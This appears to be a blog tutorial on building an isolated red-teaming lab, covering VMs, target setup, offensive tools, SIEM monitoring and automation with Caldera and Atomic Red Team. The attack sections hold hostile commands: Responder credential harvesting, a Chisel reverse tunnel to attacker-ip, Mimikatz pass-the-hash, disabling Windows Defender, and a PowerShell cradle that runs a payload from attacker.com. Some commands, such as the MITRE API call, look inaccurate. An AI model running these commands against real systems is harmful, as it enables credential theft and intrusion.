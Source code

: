 ```yaml
---
title: "Building a Red Teaming Lab: A Strategic Guide"
date: "2025-02-03"
author: "Sumon Nath"
tags: [Red Teaming, cybersecurity, lab building, penetration testing, strategy]
---
```


# Building a Red Teaming Lab: A Strategic Guide

Red Teaming is an essential practice in offensive security, enabling organizations to simulate real-world attacks and strengthen their defenses. A well-structured Red Teaming lab allows cybersecurity professionals to test exploits, develop attack chains, and refine tactics in a controlled environment. This guide outlines how to build a robust Red Teaming lab with essential tools and methodologies.

---

## **1. Understanding the Purpose of a Red Teaming Lab**

### **What is a Red Teaming Lab?**
A Red Teaming lab is an isolated environment designed to simulate an organization’s network, enabling:
- Penetration testing practice
- Exploit development
- Advanced persistent threat (APT) simulations
- Security monitoring and defense evasion techniques

### **Key Components of a Red Team Lab**
- Attack Machines (Kali Linux, Parrot OS, Commando VM)
- Target Machines (Windows Server, Linux, Active Directory, Web Applications)
- Network Infrastructure (Firewalls, VPNs, Proxies)
- Monitoring & Logging (SIEM, ELK Stack, Splunk)

---

## **2. Setting Up the Lab Environment**

### **1. Choosing the Right Infrastructure**
You can set up your lab using:
- **Virtual Machines (VMs)**: VMware, VirtualBox, Proxmox
- **Cloud-Based Labs**: AWS, Azure, GCP
- **Bare Metal Setup**: Dedicated physical servers for realistic simulation

### **2. Deploying the Red Teaming Tools**
Install essential tools on your attack machine:
```bash
sudo apt update && sudo apt install -y kali-linux-full
```
Key tools to include:
- **Command & Control (C2)**: Cobalt Strike, Sliver, Empire
- **Post-Exploitation**: Metasploit, Mimikatz, BloodHound
- **Recon & Scanning**: Nmap, Shodan, Amass, FOCA
- **Privilege Escalation**: PEASS-ng, WinPEAS, LinPEAS
- **Evasion Techniques**: AMSI Bypass, AV Evasion, LOLBAS

---

## **3. Configuring Target Environments**

### **1. Windows Attack Simulation**
- Deploy Windows 10 and Windows Server 2019 VMs.
- Configure Active Directory (AD) with:
  ```powershell
  Install-WindowsFeature -Name AD-Domain-Services
  ```
- Create a vulnerable web application using DVWA or Juice Shop.

### **2. Linux Exploitation Setup**
- Install vulnerable services: SSH, FTP, MySQL, Apache.
- Deploy vulnerable applications like **Metasploitable2** and **HackTheBox VMs**.

### **3. Simulating Real-World Network Infrastructure**
- Configure firewalls with **pfSense**.
- Set up VPN tunneling to simulate external attacker scenarios.
- Enable IDS/IPS tools (Snort, Suricata) to test detection evasion.

---

## **4. Red Teaming Techniques & Tactics**

### **1. Initial Access & Reconnaissance**
Perform external and internal reconnaissance using:
```bash
nmap -A -T4 target-ip
amass enum -d target.com
```

### **2. Exploitation & Post-Exploitation**
- **Credential Harvesting** with Responder:
  ```bash
  sudo python3 Responder.py -I eth0
  ```
- **Privilege Escalation**:
  ```bash
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  chmod +x linpeas.sh && ./linpeas.sh
  ```
- **Pivoting with Chisel:**
  ```bash
  ./chisel server -p 8000 --reverse
  ./chisel client attacker-ip:8000 R:socks5:1080
  ```

### **3. Lateral Movement & Defense Evasion**
- **Pass-the-Hash (PTH) with Mimikatz:**
  ```powershell
  sekurlsa::pth /user:Administrator /domain:target /ntlm:HASH
  ```
- **Bypassing Windows Defender**:
  ```powershell
  Set-MpPreference -DisableRealtimeMonitoring $true
  ```
- **Injecting Payloads with Cobalt Strike**:
  ```powershell
  powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"
  ```

---

## **5. Monitoring & Blue Teaming Strategies**

### **1. Implementing SIEM for Attack Detection**
- Deploy **ELK Stack** for logging.
- Configure Splunk with Sysmon for endpoint monitoring.
- Analyze attack logs:
  ```bash
  tail -f /var/log/auth.log
  ```

### **2. Analyzing Attack Indicators**
Use **MITRE ATT&CK Framework** to categorize tactics & techniques.
```bash
curl -s https://attack.mitre.org/api/v1/techniques | jq .
```

---

## **6. Automating Red Team Exercises**

### **1. Continuous Red Teaming with Caldera**
Caldera automates adversary simulations:
```bash
git clone https://github.com/mitre/caldera.git
cd caldera && pip install -r requirements.txt
python server.py --insecure
```

### **2. Running Atomic Red Team Tests**
```bash
git clone https://github.com/redcanaryco/atomic-red-team.git
Invoke-AtomicTest T1003
```

---

## **7. Conclusion: Strengthening Cyber Offense & Defense**

A well-structured Red Teaming lab is essential for developing offensive security skills and testing organizational defenses. By setting up realistic attack scenarios, refining exploitation techniques, and automating adversary simulations, security professionals can enhance their threat detection and response capabilities.

🚀 Keep hacking, keep learning, and sharpen your Red Teaming skills!

---

💡 **Want more Red Team insights?** Stay tuned for advanced threat simulation techniques!

